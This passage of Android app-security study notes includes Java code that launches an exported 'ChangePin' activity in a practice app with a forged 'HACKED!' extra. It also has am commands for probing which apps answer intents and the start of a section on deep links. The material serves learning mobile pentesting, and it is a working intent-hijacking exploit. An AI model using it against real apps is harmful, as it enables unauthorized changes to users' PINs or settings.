 
```java
Button alarmbtn = findViewById(R.id.alarmBtn);
alarmbtn.setOnClickListener(new View.OnClickListener() {
    @Override
    public void onClick(View v) {
        // Create explicit intent to target app's ChangePin activity
        Intent alarmIntent = new Intent();
        alarmIntent.setClassName("com.apphacking.alarmpin", "com.apphacking.alarmpin.ChangePin");
        alarmIntent.putExtra("username", "HACKED!");
        
        // Add DEFAULT category to the intent
        alarmIntent.addCategory(Intent.CATEGORY_DEFAULT);
        
        // Optional: Verify if the activity exists before starting
        if (alarmIntent.resolveActivity(getPackageManager()) != null) {
            startActivity(alarmIntent);
        } else {
            Toast.makeText(getApplicationContext(), 
                         "Target activity not found", 
                         Toast.LENGTH_SHORT).show();
        }
    }
});
```



#### Intent Bruteforcing

To checking which apps respond to which intent:

```bash
am start-activity -a android.intent.action.VIEW -c android.intent.category.DEFAULT
```

**NOTE**

You cannot sniff explicit intent:
*Example:*
```bash
am start -n com.hacking.app/.ProfileActivity
```

### Deep Links

A **deep link** is a special link (usually a URL) that takes users directly to a specific screen _inside_ your app, rather than just launching it.

*Example*

```url
https://example.com/product/123
```

Instead of opening a browser, this can directly launch your app’s product page for ID `123`.

#### Types of Deep Links

